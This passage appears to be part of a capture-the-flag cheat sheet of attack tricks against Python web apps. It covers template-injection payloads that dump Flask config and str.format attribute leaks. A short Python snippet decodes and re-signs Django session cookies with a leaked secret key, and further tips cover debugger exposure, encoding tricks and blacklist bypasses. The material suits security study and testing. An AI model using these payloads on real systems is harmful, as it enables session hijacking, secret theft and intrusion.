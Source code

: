     {{config}}
    {{ url_for.globals.current_app.config }}
    {% endraw %}
    ```
* objects comparison: `"1">5 -> True`
* [format is exploitable](http://lucumr.pocoo.org/2016/12/29/careful-with-str-format/): `'{your_input}'.format(some_python_object)` like `'{0.__class__}'.format(object)`
* web cache dirs:
    ```
    /__pycache__/__init__.cpython-35.pyc
    /__pycache__/conf.cpython-35.pyc
    /__pycache__/app.cpython-35.pyc
    ```
* Werkzeug debbuger
* django secret_key when leaked:
    ```
    download django sources
    pip install -e ./django

    in python shell:
    from django.core import signing
    p = signing.loads(c, key, salt='django.contrib.sessions.backends.signed_cookies')  # read cookie
    print(p)
    # {'_auth_user_backend': 'django.contrib.auth.backends.ModelBackend','_auth_user_hash': '0bd0910002c734f0eb2228dd4cadb8fff477c3cf','_auth_user_id': '184'}
    # key_salt = 'django.contrib.auth.models.AbstractBaseUser.get_session_auth_hash'
    # password_admin == password hash from database
    # _auth_user_hash == django.utils.crypto.salted_hmac(key_salt, password_admin, key).hexdigest()

    signing.dumps(p, key, salt='django.contrib.sessions.backends.signed_cookies', compress=True) # signs
    ```
* we can replace '\x0a' with '\x0d', it still will be correct python script (useful when getting code with `input()`)

* its possible to send urlencoded data as path, i.e. "GET /%41%41%41 HTTP/1.1" == "GET /AAA HTTP/1.1" (at least in flask dev)

* [C preprocessor with Digraphs for blacklist bypass](https://en.wikipedia.org/wiki/Digraphs_and_trigraphs#C)

* [wsgi + ssrf (pycurl) + UWSGI_FILE == rce](https://zaratec.github.io/2018/12/20/rwctf2018-magic-tunnel/)
